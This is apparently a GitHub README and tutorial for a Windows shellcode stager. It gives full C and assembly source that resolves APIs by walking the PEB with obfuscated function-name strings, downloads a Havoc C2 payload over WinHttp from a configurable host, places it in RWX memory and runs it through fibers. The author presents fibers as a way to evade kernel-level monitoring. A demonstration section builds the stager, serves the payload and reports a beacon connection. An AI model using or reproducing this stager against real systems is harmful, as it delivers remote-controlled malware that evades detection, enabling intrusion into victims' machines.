





# Project Architecture 

```
.
├── bin
│   └── shellcode.exe
├── include
│   ├── common.h
│   ├── core
│   │   ├── fibers.h
│   │   ├── transport.h
│   │   └── win32.h
│   └── structs.h
├── makefile
├── scripts
│   └── extract.py
└── src
    ├── asm
    │   └── entry.asm
    ├── core
    │   ├── fibers.c
    │   ├── mem.c
    │   ├── strman.c
    │   ├── transport.c
    │   └── win32.c
    └── main.c
```

- WinMain - This is entrypoint writed in NASM. Its located in src/asm/entry.asm.
- Main - Pre entrypoint in C. Its located in src/main.c.
- LdrModuleAddr - is a function that takes the name of a module and traverses the Process Environment Block (PEB) to fetch its address. Explained in ... . Its located in src/core/win32.c.
- LdrFuncAddr - is a function that takes the address of a module and the name of a function, then retrieves the address of an exported function through its Portable Executable (PE) header. Explained in ... . Its located in src/core/win32.c.
- INSTANCE - is a structure that will hold the addresses of the modules and functions that will be utilized. Its located in include/core/win32.h.
- InitInstance - is a function that initializes the INSTANCE structure using the previously mentioned functions, LdrModuleAddr and LdrFuncAddr. Its located in src/core/win32.c.
- ExecViaFibers - is a function responsible for executing the payload, Its located in src/core/fibers.c. 
- StagerReceive - is a function responsible for making the request and reading the main payload from a web server. Its located in src/core/transport.c.

The code contains custom memory copy functions, ANSI and UNICODE string comparison functions, as well as type casting, which I won't explain here. Its located in src/core/strman.c, src/core/mem.c and exported in include/common.h

## WinMain

WinMain is the function that aligns the stack according to the calling convention. Without this, it would be impossible because it needs to be cleaned and aligned to 16 bytes. To learn more, visit: https://learn.microsoft.com/en-us/cpp/build/stack-usage?view=msvc-170#stack-allocation.

Below, I will show the code responsible for performing the alignment.

```
section .text                  
global WinMain

EXTERN Main
WinMain:                         
    push rsi                      
    mov  rsi, rsp                 
    and  rsp, 0xFFFFFFFFFFFFFFF0  
    sub  rsp, 0x20                
    call Main                     
    mov  rsp, rsi                 
    pop  rsi                      
    ret                           
```

As seen, the Main function is called inside our WinMain.

## Main

The function responsible for handling all functionalities of the code is where we declare the INSTANCE, initialize it, also where we have the Host, Port, Path, and usage of the Http call functions and payload execution. If used, its necessary to change the Host, Port, and Path according to your context.

```c
#include <windows.h>
#include <common.h>
#include <core/win32.h>
#include <core/fibers.h>
#include <core/transport.h>

void Main(){

    INSTANCE Instance = { 0 };
    InitInstance(&Instance);

    WCHAR Host[] = L"192.168.0.101";
    int   Port   = 7777;
    WCHAR Path[] = L"/havoc.bin";

	DWORD Bs;
	PBYTE Bt;
    StagerReceive( Instance, Host, Port, Path, &Bt, &Bs );

	PVOID Addr = Instance.Api.pVirtualAlloc(NULL, Bs, 0x3000, 0x40);
	MemCopy(Addr, Bt, Bs);

    ExecViaFibers( Instance, Addr );

}
```

## INSTANCE

Here we have the declaration of the Api structure and the Modules structure inside INSTANCE, with all the functions and modules we will use in our project. In the same file, we have the typing of the APIs being declared.

```c
typedef struct _INSTANCE {
  
  struct {
    fnRtlAllocateHeap         pRtlAllocateHeap;
    fnRtlReAllocateHeap       pRtlReAllocateHeap;
    fnRtlFreeHeap             pRtlFreeHeap;

    fnCreateFiber             pCreateFiber;
    fnSwitchToFiber           pSwitchToFiber;
    fnConvertThreadToFiber    pConvertThreadToFiber;
    fnLoadLibraryA            pLoadLibraryA;
    fnVirtualAlloc            pVirtualAlloc;

    fnWinHttpOpen             pWinHttpOpen;
    fnWinHttpConnect          pWinHttpConnect;
    fnWinHttpOpenRequest      pWinHttpOpenRequest;
    fnWinHttpSendRequest      pWinHttpSendRequest;
    fnWinHttpReceiveResponse  pWinHttpReceiveResponse;
    fnWinHttpReadData         pWinHttpReadData;
    fnWinHttpQueryHeaders     pWinHttpQueryHeaders;
    fnWinHttpCloseHandle      pWinHttpCloseHandle;
  } Api;

  struct {
    PVOID Ntdll;
    PVOID Kernel32;
    PVOID WinHttp;
  } Modules; 

} INSTANCE, *PINSTANCE; 
```

## InitInstance

Here, the function returns a pointer to the INSTANCE structure, which is where we will use the reference in the Main function. We have strings in CHAR and WCHAR to keep the value in the text section. We use LdrModuleAddr and LdrFuncAddr to fill in the modules and functions. In the case of WinHttp, it's necessary to use LoadLibrary because we need to load the DLL into the process. The LdrModuleAddr function can only handle modules already loaded in the current process.

```c
void InitInstance( _Out_ PINSTANCE pInstance){
  /*--------------------------[ Ntdll ]--------------------------*/

  WCHAR  wNtdll[]           = L"ntdll.dll";

  CHAR cRtlAllocateHeap[]   = { 'R', 't', 'l', 'A', 'l', 'l', 'o', 'c', 'a', 't', 'e', 'H', 'e', 'a', 'p', 0 };
  CHAR cRtlReAllocateHeap[] = { 'R', 't', 'l', 'R', 'e', 'A', 'l', 'l', 'o', 'c', 'a', 't', 'e', 'H', 'e', 'a', 'p', 0 };
  CHAR cRtlFreeHeap[]       = { 'R', 't', 'l', 'F', 'r', 'e', 'e', 'H', 'e ', 'a', 'p', 0 };

  pInstance->Modules.Ntdll          = LdrModuleAddr(wNtdll);

  pInstance->Api.pRtlAllocateHeap   = LdrFuncAddr(pInstance->Modules.Ntdll, cRtlAllocateHeap);
  pInstance->Api.pRtlReAllocateHeap = LdrFuncAddr(pInstance->Modules.Ntdll, cRtlReAllocateHeap);
  pInstance->Api.pRtlFreeHeap       = LdrFuncAddr(pInstance->Modules.Ntdll, cRtlFreeHeap);


  /*--------------------------[ Kernel32 ]--------------------------*/

  WCHAR wKernel32[] = L"KERNEL32.DLL";

  CHAR  cVirtualAlloc[]           = { 'V', 'i', 'r', 't', 'u', 'a','l', 'A', 'l', 'l', 'o', 'c', 0 };
  CHAR  cCreateFiber[]            = { 'C', 'r', 'e', 'a', 't', 'e', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cConvertThreadToFiber[]   = { 'C', 'o', 'n', 'v', 'e', 'r', 't', 'T', 'h', 'r', 'e', 'a', 'd', 'T', 'o', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cSwitchToFiber[]          = { 'S', 'w', 'i', 't', 'c', 'h', 'T', 'o', 'F', 'i', 'b', 'e', 'r', 0 };
  CHAR  cLoadLibraryA[]           = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', 0 };

  pInstance->Modules.Kernel32           = LdrModuleAddr(wKernel32);

  pInstance->Api.pVirtualAlloc          = LdrFuncAddr(pInstance->Modules.Kernel32, cVirtualAlloc);
  pInstance->Api.pCreateFiber           = LdrFuncAddr(pInstance->Modules.Kernel32, cCreateFiber);
  pInstance->Api.pConvertThreadToFiber  = LdrFuncAddr(pInstance->Modules.Kernel32, cConvertThreadToFiber);
  pInstance->Api.pSwitchToFiber         = LdrFuncAddr(pInstance->Modules.Kernel32, cSwitchToFiber);
  pInstance->Api.pLoadLibraryA          = LdrFuncAddr(pInstance->Modules.Kernel32, cLoadLibraryA);
  /*--------------------------[ WinHttp ]--------------------------*/

  CHAR cWinHttp[] = { 'W', 'i', 'n', 'H', 't', 't', 'p', '.', 'd', 'l', 'l', 0};

  CHAR cWinHttpOpen[]            = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'O', 'p', 'e', 'n', 0 };
  CHAR cWinHttpConnect[]         = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'C', 'o', 'n', 'n', 'e', 'c', 't', 0 };
  CHAR cWinHttpOpenRequest[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'O', 'p', 'e', 'n', 'R', 'e', 'q', 'u', 'e', 's', 't', 0 };
  CHAR cWinHttpReadData[]        = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'R', 'e', 'a', 'd', 'D', 'a', 't', 'a', 0 };
  CHAR cWinHttpReceiveResponse[] = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'R', 'e', 'c', 'e', 'i', 'v', 'e', 'R', 'e', 's', 'p', 'o', 'n', 's', 'e', 0 };
  CHAR cWinHttpSendRequest[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'S', 'e', 'n', 'd', 'R', 'e', 'q', 'u', 'e', 's', 't', 0 };
  CHAR cWinHttpQueryHeaders[]    = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'Q', 'u', 'e', 'r', 'y', 'H', 'e', 'a', 'd', 'e', 'r', 's', 0 };
  CHAR cWinHttpCloseHandle[]     = { 'W', 'i', 'n', 'H', 't', 't', 'p', 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', 0 };

  pInstance->Modules.WinHttp   = pInstance->Api.pLoadLibraryA(cWinHttp);

  pInstance->Api.pWinHttpOpen            = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpOpen);
  pInstance->Api.pWinHttpConnect         = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpConnect);
  pInstance->Api.pWinHttpOpenRequest     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpOpenRequest);
  pInstance->Api.pWinHttpReadData        = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpReadData);
  pInstance->Api.pWinHttpReceiveResponse = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpReceiveResponse);
  pInstance->Api.pWinHttpSendRequest     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpSendRequest);
  pInstance->Api.pWinHttpQueryHeaders    = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpQueryHeaders);
  pInstance->Api.pWinHttpCloseHandle     = LdrFuncAddr(pInstance->Modules.WinHttp, cWinHttpCloseHandle);
}
```

## ExecViaFibers

Now let's talk about Fibers, a fascinating concept. Think of them as scheduled execution units that operate within the context of threads. Their main advantage lies in their stealthiness compared to traditional thread creation. Depending on the context, memory allocation may not be necessary, and their operation occurs exclusively in user space (UserLand). This makes them ideal for evading intensive monitoring solutions operating at kernel levels, such as ... , Kernel Callbacks.

However, they may not be the best option for a Stager, as they require the payload to already be present in the code, in a section with execution permissions. In this case, simply allocating the payload to a variable in the text section and executing it would suffice. However, when dealing with a Stager, it's necessary to allocate memory with read, write, and execute permissions (RWX), which is highly undesirable, as discussed in previous modules.

So why am I using Fibers? Simply because I wanted to! I wanted to explore this concept on my blog. 😄

```c
void ExecViaFibers( _In_ INSTANCE pInstance, _In_ PBYTE ByteCodes){

    LPVOID ShellFibersAddr = NULL;

    if(!(ShellFibersAddr = pInstance.Api.pCreateFiber(0x00, (LPFIBER_START_ROUTINE)ByteCodes, NULL))){
        return;
    }

    if(!(pInstance.Api.pConvertThreadToFiber(NULL))){
        return;
    }

    pInstance.Api.pSwitchToFiber(ShellFibersAddr);

}
```

First, we need to create the Fiber using the CreateFiber API. Then, we convert the current thread to a Fiber using ConvertThreadToFiber, and finally, we use SwitchToFiber to execute the created Fiber.

## StagerReceive

The function StagerReceive is used to receive data from a web server using the WinHttp API of Windows. This function takes several parameters, including information about the program instance, such as the server host, port, path of the resource on the server, and pointers to store the received data and its size.

The function begins by opening a WinHttp session using WinHttpOpen, then connects to the server using WinHttpConnect, and opens an HTTP request using WinHttpOpenRequest.

After configuring the request, the function sends the HTTP request using WinHttpSendRequest and waits for the server's response using WinHttpReceiveResponse.

Next, the size of the received data is queried using WinHttpQueryHeaders, and a buffer is allocated to store this data.

Finally, the data is read from the server in a loop using WinHttpReadData, and the total size of the read data is verified. The read data is stored in the previously allocated temporary buffer.

The function ends by releasing the handles used and assigning the received data and its size to the pointers passed as parameters.

```c
void StagerReceive(
    _In_  INSTANCE pInstance, 
    _In_  LPWSTR Host, 
    _In_  int Port, 
    _In_  LPWSTR Path,
    _Out_ PBYTE *ByteCodes, 
    _Out_ DWORD *ByteSize
) {
    HINTERNET hSession = NULL, hConnect = NULL, hRequest = NULL;
    WCHAR wMethodRequest[] = L"GET";
    
    BOOL  bResults      = FALSE;
    DWORD dwSize       = 0;
    DWORD dwDownloaded = 0;
    BYTE* pTempBuffer  = NULL;

    PVOID Heap = NtCurrentTeb()->ProcessEnvironmentBlock->ProcessHeap;

    hSession = pInstance.Api.pWinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    if (!hSession) {
        goto END;
    }

    hConnect = pInstance.Api.pWinHttpConnect(hSession, Host, Port, 0);
    if (!hConnect) {
        goto END;
    }

    hRequest = pInstance.Api.pWinHttpOpenRequest(hConnect, wMethodRequest, Path, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
    if (!hRequest) {
        goto END;
    }

    bResults = pInstance.Api.pWinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    if (!bResults) {
        goto END;
    }

    bResults = pInstance.Api.pWinHttpReceiveResponse(hRequest, NULL);
    if (!bResults) {
        goto END;
    }

    DWORD dwContentLength = 0;
    DWORD dwSizeSize = sizeof(DWORD);
    bResults = pInstance.Api.pWinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, NULL, &dwContentLength, &dwSizeSize, NULL);
    if (!bResults) {
        goto END;
    }

    pTempBuffer = (BYTE*)pInstance.Api.pRtlAllocateHeap(Heap, 0, dwContentLength);
    if (!pTempBuffer) {
        goto END;
    }

    do {
        bResults = pInstance.Api.pWinHttpReadData(hRequest, (LPVOID)(pTempBuffer + dwDownloaded), dwContentLength - dwDownloaded, &dwSize);
        if (bResults) {
            dwDownloaded += dwSize;
        } else {
            pInstance.Api.pRtlFreeHeap(Heap, 0, pTempBuffer);
            pTempBuffer = NULL; 
            goto END;
        }
    } while (dwSize > 0 && dwDownloaded < dwContentLength);

    *ByteCodes = pTempBuffer;
    *ByteSize = dwContentLength;

END:
    if (hRequest) pInstance.Api.pWinHttpCloseHandle(hRequest);
    if (hConnect) pInstance.Api.pWinHttpCloseHandle(hConnect);
    if (hSession) pInstance.Api.pWinHttpCloseHandle(hSession);
}
```

# POC

One advantage of using a code like this, regardless of position-independent code (PIC), is that, for example, Havoc doesn't have a Stager. Therefore, the generated shellcode contains the entire agent, without optimizations. If we need a slightly smaller shellcode, we would be left empty-handed. However, we can develop it as I demonstrated. Additionally, it can be used as an exploit payload and for various other purposes.

Here's a demonstration of its use. First, let's navigate to the root folder and run the make command, which will use the Makefile for compilation automation, shellcode (text) extraction with the Python script extract.py, and preparation for our use.



Now we will use the Ldr that was explained in the parent chapter; its just a loader for the shellcode. We could use VBA, JS, or any other method, but since that wasn't the focus, I decided to simplify. 

When the shellcode (text) is extracted, it's stored in the bin folder within the Ldr folder. Now we will generate a payload with Havoc in Attack > Payload and choose the shellcode option.



After generating the payload, we will use Python3 to create a web server with the command python -m http.server.



Now we can run the loader that will load our shellcode.bin. The loader reads a shellcode from disk as an argument.



Now we can look at the Havoc interface and see that a beacon connection has been initialized.



# End

Alright, we're done here. If anyone has any questions or anything like that, feel free to contact me. [Github Repository](https://github.com/Entropy-z/Shellcoding-Stager_Local_Inject)

